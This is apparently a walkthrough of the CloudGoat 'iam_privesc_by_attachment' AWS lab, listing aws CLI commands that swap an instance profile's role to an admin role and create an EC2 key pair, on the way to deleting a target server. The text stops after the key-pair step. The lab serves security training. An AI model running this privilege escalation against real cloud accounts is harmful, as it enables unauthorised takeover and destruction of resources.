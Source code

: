 
| ++             | ++                                                                                  |
| -------------- | ----------------------------------------------------------------------------------- |
| Scenario Goal  | deleting the `cg-super-critical-security-server`                                    |
| Size           | Medium                                                                              |
| Difficulty     | Moderate                                                                            |
| Command        | `$ ./cloudgoat.py create iam_privesc_by_attachment`                                 |
| lesson learned | <font color=red> check role, create ec2, swap role, terminate other service </font> |


Starting with a very limited set of permissions
- leverage the instance-profile-attachment permissions to create a new EC2 instance with significantly greater privileges than their own.
- With access to this new EC2 instance, the attacker gains full administrative powers within the target account and is able to accomplish the scenario's goal
  - deleting the `cg-super-critical-security-server`
  - and paving the way for further nefarious actions.


![6874](https://i.imgur.com/n9sGgxH.png)


```bash
# got the IAM User "Kerrigan"
# uses their limited privileges to explore the environment.
aws configure --profile Kerrigan


# lists EC2 instances
# identifying the "cg-super-critical-security-server"
# unable to directly affect the target
aws ec2 describe-instances \
    --profile Kerrigan

aws iam list-instance-profiles \
    --profile Kerrigan



# enumerate existing instance profiles and roles within the account
# identifying an instance profile they can use and a promising-looking role.
# swap the full-admin role onto the instance profile.

aws iam list-roles \
    --profile Kerrigan

aws iam remove-role-from-instance-profile \
    --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> \
    --role-name cg-ec2-meek-role-<cloudgoat_id> \
    --profile Kerrigan

aws iam add-role-to-instance-profile \
    --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> \
    --role-name cg-ec2-mighty-role-<cloudgoat_id> \
    --profile Kerrigan



# creates a new EC2 key pair.
aws ec2 create-key-pair \
    --key-name pwned \
    --profile Kerrigan

```